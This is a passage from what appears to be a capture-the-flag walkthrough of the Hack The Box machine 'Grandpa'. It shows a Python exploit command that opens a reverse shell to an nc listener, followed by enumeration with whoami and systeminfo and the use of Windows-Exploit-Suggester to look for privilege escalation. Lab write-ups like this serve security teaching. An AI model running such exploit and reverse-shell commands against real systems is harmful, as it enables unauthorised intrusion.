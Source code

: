 So our command to exploit will be:

    python exploit.py 10.10.10.14 80 10.10.14.24 17011

First we need to set up a nc listener on port 17011 to catch the reverse connection. In a separate terminal window:

    nc -lvnp 17011

![](/images/grandpa/25. nc_listener.png)

Note: This python exploit appears to only work once before requiring a reset of the box. So if you are trying it multiple times, reset Grandpa first.

Now back in the first terminal window, send the exploit:

![](/images/grandpa/26. python_exploit.png)

This window should appear to hang, but over in your nc listener window you should see:

![](/images/grandpa/27. nc_connection.png)

Now we have a shell on the machine, let's see what privileges we have:
 
    whoami

![](/images/grandpa/28. whoami.png)

So we are a low-privileged network service. Time to privesc! 

First, let's grab our systeminfo and run it against a Windows exploit suggester back on Kali. In your windows shell:

    systeminfo

![](/images/grandpa/29. systeminfo.png)
Note: output snipped from the above screenshot.

Now, copy/paste all of the output to a “grandpa.systeminfo” back on your Kali machine:

![](/images/grandpa/30. sysinfo_file.png)

Save the grandpa.systeminfo file. Now we are going to use a python script called “Windows-Exploit-Suggester” to analyze the systeminfo file and recommend paths to privesc.

You can download the Windows Exploit Suggester here: [https://github.com/AonCyberLabs/Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)

Once it is installed, you will need to download a local copy of the database in order for the script to run correctly. The script refers to this as an “update”:

    ./windows-exploit-suggester.py -u

![](/images/grandpa/31. wes.png)

Now we can run the exploit suggester script against the systeminfo file:

    ./windows-exploit-suggester.py -i /root/labs/htb/grandpa/grandpa.systeminfo -d 2020-05-09-mssb.xls
